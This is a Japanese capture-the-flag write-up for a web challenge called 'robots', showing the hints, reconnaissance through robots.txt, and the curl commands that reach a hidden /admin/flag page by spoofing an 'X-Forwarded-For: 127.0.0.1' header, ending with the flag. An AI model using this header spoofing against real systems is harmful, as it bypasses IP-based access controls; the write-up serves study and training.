 # robots:web:404pts
Flagが漏洩してるって聞いたけど、本当ですか？？？  

[http://34.82.208.2:31481/](http://34.82.208.2:31481/)  

Hint  
- "robots ctf"で調べてみましょう  
- どうにかして、プログラムを勘違いさせることはできないでしょうか？  

# Solution
URLが渡されるのでアクセスする。  
![116120116.png](site/116120116.png)  
robotsが`116 120 116`と喋っている(task画伯作か？)。  
これはASCIIの`txt`を表しているので、`robots.txt`を確認する。  
```bash
$ curl http://34.82.208.2:31481/robots.txt
User-Agent: *
Disallow: /admin/flag
```
`/admin/flag`があるようなのでアクセスする。  
```bash
$ curl http://34.82.208.2:31481/admin/flag
<html>
~~~
<body>
    <div class="container">
        <h1>401 Unauthorized</h1>
        <p>■■■.■■■.■■■.■■■ is not internal IP address :(</p>
    </div>
</body>

</html>
```
`internal IP address`でなければいけないようだ。  
SSRF系が行える個所はないので、`X-Forwarded-For`とあたりを付ける。  
```bash
$ curl http://34.82.208.2:31481/admin/flag -H "X-Forwarded-For: 127.0.0.1"
<html>
~~~
<body>
    <div class="container">
        <h1>flag</h1>
        <p>taskctf{th15_c0ntr0l_y0u_th1nk_y0u_h4ve_1s_4n_1llu5i0n}</p>
    </div>
</body>

</html>
```
`127.0.0.1`に設定するとflagが得られた。  

## taskctf{th15_c0ntr0l_y0u_th1nk_y0u_h4ve_1s_4n_1llu5i0n}